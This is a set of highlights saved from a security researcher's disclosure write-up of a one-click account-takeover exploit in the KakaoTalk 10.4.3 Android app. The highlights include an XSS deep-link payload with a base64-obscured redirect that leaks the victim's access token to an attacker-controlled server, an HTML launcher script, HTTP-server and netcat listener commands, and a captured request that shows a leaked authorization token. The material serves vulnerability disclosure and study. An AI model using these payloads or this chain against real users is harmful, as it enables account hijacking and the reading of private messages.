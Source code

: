 ```yaml
---
author: "stulle123"
aliases: "1-Click Exploit in South Korea's Biggest Mobile Chat App"
tags: RW_inbox, readwise/articles
url: https://stulle123.github.io/posts/kakaotalk-account-takeover/
date: 2024-09-25
---
```

# 1-Click Exploit in South Korea's Biggest Mobile Chat App

![rw-book-cover](https://readwise-assets.s3.amazonaws.com/static/images/article2.74d541386bbf.png)

## Highlights


A deep link validation issue in KakaoTalk `10.4.3` allows a remote adversary to run arbitrary JavaScript in a WebView that leaks an access token in a HTTP request header. Ultimately, this token can be used to takeover another user’s account and read her/his chat messages by registering an attacker-controlled device.
> [View Highlight](https://read.readwise.io/read/01j8n4mz62qwf3ryhj479s3y1a)


Entry Point: CommerceBuyActivity[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#entry-point-commercebuyactivity)
 The `CommerceBuyActivity` WebView is the main entry point and very interesting from an attacker’s point of view:
 • It’s exported and can be started with a deep link (e.g., `adb shell am start kakaotalk://buy`)
 • It has JavaScript enabled (`settings.setJavaScriptEnabled(true);`)
 • It supports the `intent://` [scheme](https://www.mbsd.jp/Whitepaper/IntentScheme.pdf) to send data to other **non-exported** app components via JavaScript. For example, the URI `"intent:#Intent;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity;S.EXTRA_URL=https://foo.bar;end"` loads the website `https://foo.bar` in the `MyProfileSettingsActivity` WebView.
 • There’s no sanitization of `intent://` URIs (e.g., the `Component` or `Selector` is **not** set to `null`). So, potentially any app component can be accessed.
> [View Highlight](https://read.readwise.io/read/01j8nkgas0abmddpc62wn93ms3)



URL Redirect to DOM XSS[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#url-redirect-to-dom-xss)
 While digging into `https://buy.kakao.com` we identified the endpoint `https://buy.kakao.com/auth/0/cleanFrontRedirect?returnUrl=` which allowed to redirect to any `kakao.com` domain. This vastly increased our chances to find a XSS flaw as there are many many subdomains under `kakao.com`.
> [View Highlight](https://read.readwise.io/read/01j8nkjzyawkepkdm5sq6fjwh0)



At this point we could run arbitrary JavaScript in the `CommerceBuyActivity` WebView when the user clicked on a deep link such as `kakaotalk://auth/0/cleanFrontRedirect?returnUrl=https://m.shoppinghow.kakao.com/m/product/Y25001977964/q:"><img src=x onerror=alert(1);>`.
> [View Highlight](https://read.readwise.io/read/01j8nkmmkw5wxbb1v05d8s5ysf)



Deep Link to Kakao Mail Account Takeover[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#deep-link-to-kakao-mail-account-takeover)
 As explained in the previous section, we can steal the user’s access token by running arbitrary JS in the `CommerceBuyActivity` WebView. By crafting a malicious deep link, we could send the token to an attacker-controlled server:
 copy
 1
 kakaotalk://buy/auth/0/cleanFrontRedirect?returnUrl=https://m.shoppinghow.kakao.com/m/product/Q24620753380/q:"><img src=x onerror="document.location=atob('aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUv');">
> [View Highlight](https://read.readwise.io/read/01j8nkqsqfameapjdhzs5v699j)



PoC[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#poc)
 The goal of the PoC is to register [KakaoTalk for Windows/MacOS](https://www.kakaocorp.com/page/service/service/KakaoTalk?lang=en) or the open-source client [KiwiTalk](https://github.com/KiwiTalk/KiwiTalk) to a victim’s account to read her/his **non-end-to-end** encrypted chat messages.
 The steps for an attacker are as follows:
 Attacker prepares the malicious deep link[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#attacker-prepares-the-malicious-deep-link)
 First, she/he stores the payload to a file, …
 copy
 1
 2
 3
 <script>
 location.href = decodeURIComponent("kakaotalk%3A%2F%2Fbuy%2Fauth%2F0%2FcleanFrontRedirect%3FreturnUrl%3Dhttps%3A%2F%2Fm.shoppinghow.kakao.com%2Fm%2Fproduct%2FQ24620753380%2Fq%3A%22%3E%3Cimg%20src%3Dx%20onerror%3D%22document.location%3Datob%28%27aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUv%27%29%3B%22%3E");
 </script>
 … starts the HTTP server and …
 copy
 1
 $ python3 -m http.server 8888
 … opens a Netcat listener in another terminal window: `$ nc -l 5555`. Easy ;-)
 Victim clicks the link and leaks an access token to the attacker[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#victim-clicks-the-link-and-leaks-an-access-token-to-the-attacker)
 Next, the attacker sends a URL (e.g., `http://192.168.178.20:8888/foo.html`) and waits until the victim clicks it. The access token should be then leaked in the Netcat listener:
 copy
 1
 2
 3
 4
 5
 6
 7
 8
 9
 10
 11
 12
 13
 GET /foo.html HTTP/1.1
 Host: 192.168.178.20:5555
 Connection: keep-alive
 Upgrade-Insecure-Requests: 1
 User-Agent: Mozilla/5.0 (Linux; Android 10; M2004J19C Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/119.0.6045.66 Mobile Safari/537.36;KAKAOTALK 2610420;KAKAOTALK 10.4.2
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e
 os_name: Android
 kakao-buy-version: 1.0
 os_version: 10.4.2
 X-Requested-With: com.kakao.talk
 Accept-Encoding: gzip, deflate
 Accept-Language: en-US,en;q=0.9
 Attacker uses the access token to reset the victim’s password[#](https://stulle123.github.io/posts/kakaotalk-account-takeover#attacker-uses-the-access-token-to-reset-the-victims-password)
 Next, the attacker can now reset her/his KakaoTalk password (see instructions [above](https://stulle123.github.io/posts/kakaotalk-account-takeover#kakaotalk-password-reset-with-burp)).
 Attacker registers her/his device the victim’s KakaoTalk account
> [View Highlight](https://read.readwise.io/read/01j8nkt0avzd66j4keaz18wn7z)

